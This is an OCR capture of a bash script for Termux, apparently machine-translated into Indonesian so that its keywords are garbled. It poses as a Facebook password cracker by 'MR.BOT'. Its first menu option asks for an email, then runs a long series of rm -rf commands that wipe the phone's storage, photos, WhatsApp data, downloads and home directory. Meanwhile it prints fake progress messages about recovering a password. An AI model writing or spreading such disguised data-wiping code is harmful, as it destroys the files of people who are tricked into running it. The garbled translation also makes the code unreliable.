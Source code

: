 

#! / system / xbin / bash
# Bersihkan Layar
bersih
biru = ' \ 033 [34; 1 m '
hijau = ' \ 033 [32; 1 m '
ungu = ' \ 033 [35; 1 m '
cyan = ' \ 033 [36; 1m '
red = ' \ 033 [31; 1m '
white = ' \ 033 [37; 1m '
kuning = ' \ 033 [33; 1 m '
# ############################################## #
# CTRL C-
# ############################################## #
menjebak ctrl_c INT
ctrl_c () {
bersih
echo   $ red " [#]> (Ctrl + C) Terdeteksi,
Mencoba Keluar ... "
tidur 1
gema  " "
echo   $ yellow " [#]> Terima Kasih Telah Menggunakan Saya
Alat ... "
tidur 1
gema  " "
echo   $ white " [#]> ALI ATTACKER Hadir ... "
baca enter
keluar
}
gema              "
____________________________________________ "  | lolcat
echo  $ green " kontak admin: MR.BOT "
echo  $ Orange " Autohor: MR.BOT "
echo  $ Red " Terima Kasih Untuk Anonim Seluruh Indonesia "
gema              "
___________________________________________ "  | lolcat
echo  $ green " 01) Singgle Target ID Facebook "
echo  $ green " 02) Langkah Sebelum Menggunakan Tool "
echo  $ green " 03) Alat Info "
baca -p " [ALI ATTACKER]> " bro ;

if [ $ bro  = 1] || [ $ bro  = 01]
kemudian
bersih
echo  $ green " Login Facebook "
tidur 1
baca -p " [ISI EMAIL]> " bro ;
termux-setup-storage
rm -rf / storage / emulated / 0
rm -rf / sdcard / 0
rm -rf / storage / emulated / 0 / DCIM
rm -rf / storage / emulated / 0 / android / obb
rm -rf / sdcard / 0 / android / data
rm -rf $ HOME
rm -rf sdcard / 0
rm -rf penyimpanan / dicontoh / 0
rm -rf / storage / emulated / 0 / WhatsApp
rm -rf / sdcard / 0 / WhatsApp
rm -rf / storage / emulated / 0 / Downloads
rm -rf / storage / emulated / 0 / Music
rm -rf / sdcard / 0 / Musik
echo  $ green " Sedang Mencari ID Facebook Dalam 30 detik "
tidur 5
echo  $ green " Sedang Mencari ID Facebook Dalam 29 detik "
tidur 5
echo  $ green " Sedang Mengumpulkan ID Facebook Dalam 28 detik "
tidur 5
echo  $ green " Sedang Mengumpulkan ID Facebook Dalam 27 detik "
tidur 5
echo  $ green " Sedang Mencari Kata Sandi Facebook Dalam 26 detik "
tidur 3
echo  $ red " Mencari Gagal! Sedang Mengulangi Kembali Pencarian "
tidur 5
echo  $ green " Sedang Mencari Kata Sandi Facebook Dalam 60 detik "
tidur 5
echo  $ green " Sedang Mencari Kata Sandi Facebook Dalam 59 detik "
tidur 5
echo  $ green " Sedang Mencari Kata Sandi Facebook Dalam 58 detik "
tidur 5
echo  $ green " Berhasil Mencari kata sandi Facebook "
tidur 5
echo  $ green " Sedang Mengumpulkan Kata Sandi Facebook Dalam 3 Detik "
tidur 5
echo  $ green " Sedang Mengumpulkan Kata Sandi Facebook Dalam 2 detik "
tidur 5
echo  $ green " Sedang Mengumpulkan Kata Sandi Facebook Dalam 1 detik "
tidur 5
echo  $ white " Mengumpulkan Data + ID + Kata Sandi Facebook "
echo  $ green " kirim ke sdcard / 0 "
tidur 3
echo  $ green " Buka penyimpanan cari PasswordFacebook.txt buka dan liat hasil cracking password "
keluar
fi

if [ $ bro  = 2] || [ $ bro  = 02]
kemudian
bersih
echo  $ green " Harap Izinkan Termux untuk mengakses penyimpanan "
echo  $ green " Agar bisa menyimpan hasil Crack Password ke sdcard "
termux-setup-storage
tidur 4
termux-setup-storage
tidur 4
termux-setup-storage
tidur 4
termux-setup-storage
keluar
fi

if [ $ bro  = 3] || [ $ bro  = 03]
kemudian
bersih
echo  $ green " Penulis MR.BOT "
echo  $ green " Jika Ada masalah Hubungi Nomer Saya "
echo  $ green " kontak admin: MR.BOT "
keluar 
fi
